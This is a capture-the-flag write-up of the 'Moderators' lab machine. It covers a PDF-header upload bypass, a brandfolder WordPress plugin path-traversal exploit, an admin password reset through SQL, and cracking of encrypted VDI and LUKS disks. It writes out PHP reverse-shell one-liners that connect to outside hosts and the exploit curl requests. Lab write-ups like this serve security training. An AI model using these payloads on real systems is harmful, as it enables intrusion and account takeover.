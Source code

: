 # Moderators

Performing a **nmap** scan to discover open ports and services versions on the machine.

![Untitled](Moderators/Untitled.png)

File scanning on port 80.

![Untitled](Moderators/Untitled%201.png)

The blog has parameters with some reports, we can fuzz numbers to discover more reports.

![Untitled](Moderators/Untitled%202.png)

The hash is the number of the report converted to MD5.

![Untitled](Moderators/Untitled%203.png)

```jsx
echo -n "9798" | md5sum
e21cece511f43a5cb18d4932429915ed  -
echo -n "2589" | md5sum
743c41a921516b04afde48bb48e28ce6  -
echo -n "3478" | md5sum
b071cfa81605a94ad80cfa2bbc747448  -
echo -n "4221" | md5sum
74d90aafda34e6060f9e8433962d14fd  -
echo -n "7612" | md5sum
ce5d75028d92047a9ec617acb9c34ce6  -
echo -n "8121" | md5sum
afecc60f82be41c1b52f6705ec69e0f1  -
echo -n "81212" | md5sum
b1c7b1185d83e5e447a068f5a82db680  -
```

After some fuzzing, I discovered that the file extension is an PDF file:

```jsx
logs.pdf
```

![Untitled](Moderators/Untitled%204.png)

Two files had written data:

```jsx
743c41a921516b04afde48bb48e28ce6
ce5d75028d92047a9ec617acb9c34ce6
```

On the PDF, we can see that there is a report PHP file used to uload log files.

![Untitled](Moderators/Untitled%205.png)

Just PDF files can be uploaded.

![Untitled](Moderators/Untitled%206.png)

With PDF headers we can bypass the file verification:

![Untitled](Moderators/Untitled%207.png)

Requesting the file the phpinfo was executed.

![Untitled](Moderators/Untitled%208.png)

Listing disabled functions:

![Untitled](Moderators/Untitled%209.png)

We can create a PHP reverse shell into the PDF to gain remote code execution.

```jsx
'$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

The user of the reverse shell is www-data, we need to obtain the user Lexi.

![Untitled](Moderators/Untitled%2010.png)

Port 8080 has host a Wordpresss.

![Untitled](Moderators/Untitled%2011.png)

Plugins inside the Wordpress folder.

![Untitled](Moderators/Untitled%2012.png)

There is an exploit to the brandfolder plugin, but the null byte doesn’t work in this version of PHP, we need to find a way to bypass it.

[https://www.exploit-db.com/exploits/39591](https://www.exploit-db.com/exploits/39591)

We can create a file with the name to concatenate to the “wp-load.php”

![Untitled](Moderators/Untitled%2013.png)

Exploit code and description:

![Untitled](Moderators/Untitled%2014.png)

```jsx
curl http://127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wb_abspath=../../../../../../../dev/shm/testing
testingwp-load.php
```

Performing the request.

![Untitled](Moderators/Untitled%2015.png)

```jsx
curl http://127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=../../../../../../../dev/shm/test

$sock=fsockopen("10.10.14.96",3303);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

After obtain the reverse shell, I used the ID_RSA key to obtain SSH session.

![Untitled](Moderators/Untitled%2016.png)

Performing Wordpress port forwarding with SSH.

![Untitled](Moderators/Untitled%2017.png)

Generation of an PHPASSS password.

![Untitled](Moderators/Untitled%2018.png)

Updating the admin password of the Wordpress.

```jsx
UPDATE `wp_users` SET `user_pass` = '$P$BlDKgzCnaSGs6UCBnDcbOymitH./4s.' WHERE user_login = 'admin'
```

![Untitled](Moderators/Untitled%2019.png)

The admin password “zapzap” worked on the panel:

![Untitled](Moderators/Untitled%2020.png)

The accreditation on the panel worked.

![Untitled](Moderators/Untitled%2021.png)

We can look the John password:

![Untitled](Moderators/Untitled%2022.png)

Using the password of John in SSH we were able to obtain the session with the user.

![Untitled](Moderators/Untitled%2023.png)

The home folder of john has an interesting VDI file.

![Untitled](Moderators/Untitled%2024.png)

We transfer the file to our machine:

![Untitled](Moderators/Untitled%2025.png)

This VDI is encrypted, we need to find a way to decrypt the VDI File.

![Untitled](Moderators/Untitled%2026.png)

[https://github.com/axcheron/pyvboxdie-cracker](https://github.com/axcheron/pyvboxdie-cracker)

To crack the VDI file we can use the pyvboxdie-cracker with the rockyou wordlist:

```jsx
| perl -nle 'print if m{^[[:ascii:]]+$}'
```

![Untitled](Moderators/Untitled%2027.png)

Changing the VDI file to raw .img

![Untitled](Moderators/Untitled%2028.png)

![Untitled](Moderators/Untitled%2029.png)

Cracking the luks2 file:

![Untitled](Moderators/Untitled%2030.png)

[https://diverto.github.io/2019/11/18/Cracking-LUKS-passphrases](https://diverto.github.io/2019/11/18/Cracking-LUKS-passphrases)

[https://github.com/glv2/bruteforce-luks](https://github.com/glv2/bruteforce-luks)

[https://serverfault.com/questions/515085/how-to-mount-a-luks-encrypted-file](https://serverfault.com/questions/515085/how-to-mount-a-luks-encrypted-file)

Decrypted disk

![Untitled](Moderators/Untitled%2031.png)

The distro_update bash script file has the root password:

![Untitled](Moderators/Untitled%2032.png)